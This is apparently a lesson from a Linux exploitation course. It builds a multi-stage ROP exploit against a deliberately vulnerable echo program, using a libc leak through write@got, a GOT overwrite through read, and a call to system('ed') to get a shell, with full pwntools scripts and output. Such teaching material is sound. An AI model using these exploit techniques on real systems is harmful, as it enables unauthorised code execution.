 # Multi-Stage Exploits

### Multi-Stage Exploits

In this section, we will look at crafting a more complicated exploit that relies on multiple stages. Surprisingly, the vulnerable target we are looking at is the most simple of all the ones we have seen so far. It is precisely the lack of flexibility we have with such a simple target that forces us to adopt a more sophiscated exploit strategy.

```
#include <unistd.h>
#include <stdio.h>

void vuln() {
    char buffer[16];
    read(0, buffer, 100);
    write(1, buffer, 16);
}

int main() {
    vuln();
}
```

It is very simple. It simply echoes your input. It is vulnerable to a standard buffer overflow but ASLR and NX are enabled which means the only things you have to work with is `read`, `write`, and the gadgets that are present in the tiny binary.

```
amon@bethany:~/sproink/linux-exploitation-course/lessons/12_multi_stage/build$ ./1_vulnerable
Hello World
Hello World
```

### Crafting the Exploit Step by Step

First, as we always do, we need a skeleton script to give us our EIP control.

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_vulnerable")

    payload = "A"*28 + p32(0xdeadc0de)

    p.send(payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

Next, we would like to try and leak a libc address. We can achieve this by creating fake stack frames that execute `write(STDOUT, write@got, 4)`. This will print 4 bytes of the write@got address to stdout which we can receive on our exploit script.

```
#!/usr/bin/python

from pwn import *

offset___libc_start_main_ret = 0x18637
offset_system = 0x0003ada0
offset_dup2 = 0x000d6190
offset_read = 0x000d5980
offset_write = 0x000d59f0
offset_str_bin_sh = 0x15b82b

read_plt = 0x08048300
write_plt = 0x08048320
write_got = 0x0804a014

def main():
    p = process("../build/1_vulnerable")

    # Craft payload
    payload = "A"*28
    payload += p32(write_plt)
    payload += p32(0xdeadbeef)
    payload += p32(1) # STDOUT
    payload += p32(write_got)
    payload += p32(4)

    p.send(payload)

    # Clear the 16 bytes written on vuln end
    p.recv(16)

    # Parse the leak
    leak = p.recv(4)
    write_addr = u32(leak)
    log.info("write_addr: 0x%x" % write_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

This works easily enough to get us that leak.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/12_multi_stage/scripts$ python 2_leak_system.py
[+] Starting local process '../build/1_vulnerable': Done
[*] write_addr: 0xf76569f0
[*] Switching to interactive mode
$  [*] Got EOF while reading in interactive

[*] Process '../build/1_vulnerable' stopped with exit code -11
[*] Got EOF while sending in interactive
```

### The Killing Blow

Now, remember that what we are doing is creating a rop chain with these PLT stubs. However, if we just return into functions after functions, it is not going to work very well since the parameters on the stack are not cleaned up. We have to handle that somehow.

This is where the `pop pop ret` gadgets come in. They allow us to advance the stack and make sure our faked stack frames are coherent. We need a `pop pop pop ret` sequence because our `write` call had 3 parameters.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/12_multi_stage/build$ ropper --file 1_vulnerable
... snip ..
0x080484e9: pop esi; pop edi; pop ebp; ret;
... snip ..
```

What should we do next then? What we want to do is overwrite a GOT entry so that we can execute system. Now, we can leverage the fact that a `read` call is basically an arbitrary write primitive. So our entire rop chain sequence would look something like this:

1. `write(1, write@got, 4)` - Leaks the libc address of write
2. `read(0, write@got, 4)` - Read 4 bytes of input from us into the write GOT entry.
3. `system(some_cmd)` - Execute a command of ours and hopefully get shell

Now, of course we have a possible issue. Since our ROP chain would have to include the address of the command on the first read, we have two choices:

1. Expend another read sequence to write "/bin/sh" somewhere in memory
2. Use an alternative command (such as ed)

Option 1 is not feasible as it takes 20 bytes to construct a frame for read. This is a heavily cost when we only have 72 bytes to play with. So, we have to go with Option 2 which is easy enough to get.

```
gdb-peda$ find ed
Searching for 'ed' in: None ranges
Found 393 results, display max 256 items:
1_vulnerable : 0x8048243 --> 0x72006465 ('ed')
1_vulnerable : 0x8049243 --> 0x72006465 ('ed')
```

With all of the information in hand, we can write our exploit:

```
#!/usr/bin/python

from pwn import *

offset___libc_start_main_ret = 0x18637
offset_system = 0x0003ada0
offset_dup2 = 0x000d6190
offset_read = 0x000d5980
offset_write = 0x000d59f0
offset_str_bin_sh = 0x15b82b

read_plt = 0x08048300
write_plt = 0x08048320
write_got = 0x0804a014
new_system_plt = write_plt

pppr = 0x080484e9

ed_str = 0x8048243

def main():
    p = process("../build/1_vulnerable")

    # Craft payload
    payload = "A"*28
    payload += p32(write_plt) # 1. write(1, write_got, 4)
    payload += p32(pppr)
    payload += p32(1) # STDOUT
    payload += p32(write_got)
    payload += p32(4)
    payload += p32(read_plt) # 2. read(0, write_got, 4)
    payload += p32(pppr)
    payload += p32(0) # STDIN
    payload += p32(write_got)
    payload += p32(4)
    payload += p32(new_system_plt) # 3. system("ed")
    payload += p32(0xdeadbeef)
    payload += p32(ed_str)

    p.send(payload)

    # Clear the 16 bytes written on vuln end
    p.recv(16)

    # Parse the leak
    leak = p.recv(4)
    write_addr = u32(leak)
    log.info("write_addr: 0x%x" % write_addr)

    # Calculate the important addresses
    libc_base = write_addr - offset_write
    log.info("libc_base: 0x%x" % libc_base)
    system_addr = libc_base + offset_system
    log.info("system_addr: 0x%x" % system_addr)

    # Send the stage 2
    p.send(p32(system_addr))

    p.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/12_multi_stage/scripts$ python 3_final.py
[+] Starting local process '../build/1_vulnerable': Done
[*] write_addr: 0xf760c9f0
[*] libc_base: 0xf7537000
[*] system_addr: 0xf7571da0
[*] Switching to interactive mode
$ !sh
$ ls -la
total 20
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 13  2017 .
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 13 19:08 ..
-rw-rw-r-- 1 ubuntu ubuntu  212 Jan 13 18:16 1_skeleton.py
-rw-rw-r-- 1 ubuntu ubuntu  776 Jan 13 18:30 2_leak_system.py
-rw-rw-r-- 1 ubuntu ubuntu 1410 Jan 13 18:50 3_final.py
$
[*] Stopped program '../build/1_vulnerable'
```
